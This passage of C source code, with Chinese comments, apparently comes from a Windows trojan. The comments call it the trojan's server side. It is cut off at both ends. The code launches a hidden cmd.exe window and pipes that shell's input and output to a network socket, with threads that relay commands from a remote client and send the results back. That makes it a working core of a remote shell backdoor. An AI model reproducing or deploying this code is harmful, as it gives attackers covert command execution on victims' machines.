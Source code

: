 ```
 
		sa.bInheritHandle = TRUE;
		sa.lpSecurityDescriptor = NULL;
		sa.nLength = sizeof(sa);
 
		// 创建2条管道
		if (!CreatePipe(&hReadPipe0, &hWritePipe0, &sa, 0) || 
			!CreatePipe(&hReadPipe1, &hWritePipe1, &sa, 0))
		{
			__leave;
		}
 
		// cmd产生的结果写入pipe0的写端, 木马服务端把远程服务器的命令写入pipe1的写端
		// cmd从pipe1的读端接收命令，木马服务端从pipe0的读端读取命令
		si.cb = sizeof(STARTUPINFO);
		GetStartupInfo(&si);
		si.hStdError = si.hStdOutput = hWritePipe0;
		si.hStdInput = hReadPipe1;
		si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
		si.wShowWindow = SW_HIDE;
 
		char szCmdLine[MAX_PATH] = { 0 };
		char szBuf[MAX_PATH] = { 0 };
 
		// 获取CMD路径
		iRet = ExpandEnvironmentStringsA("%COMSPEC%", szCmdLine, MAX_PATH);
		if (!iRet)
		{
			GetSystemDirectory(szBuf, MAX_PATH);
			strcpy_s(szCmdLine, sizeof(szCmdLine), szBuf);
			strcpy_s(szCmdLine, sizeof(szCmdLine), "\\cmd.exe");
		}
		// 创建CMD进程
		fRet = CreateProcess(NULL, szCmdLine, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
		if (!fRet)
		{
			__leave;
		}
		ThreadInfoNode stNodeInput = { hClntSock, hWritePipe1 };
		// 该线程用于从客户端接收命令并将其写入hWritePipe1
		hThreadInput = CreateThread(NULL, 0, ThreadInputProc, &stNodeInput, 0, NULL);
		if (NULL == hThreadInput)
		{
			__leave;
		}
		ThreadInfoNode stNodeOutput = { hClntSock, hReadPipe0 };
		// 该线程用于从cmd进程中获取结果并将其传送到远端
		hThreadOutput = CreateThread(NULL, 0, ThreadOuputProc, &stNodeOutput, 0, NULL);
		if (NULL == hThreadOutput)
		{
			__leave;
		}
 
		// 阻塞到这，直到线程结束
		hThreads[0] = hThreadInput;
		hThreads[1] = hThreadOutput;
		WaitForMultipleObjects(2, hThreads, TRUE, INFINITE);
	}
	__finally
	{
		WSACleanup();
		if (INVALID_SOCKET != hSock)
		{
```
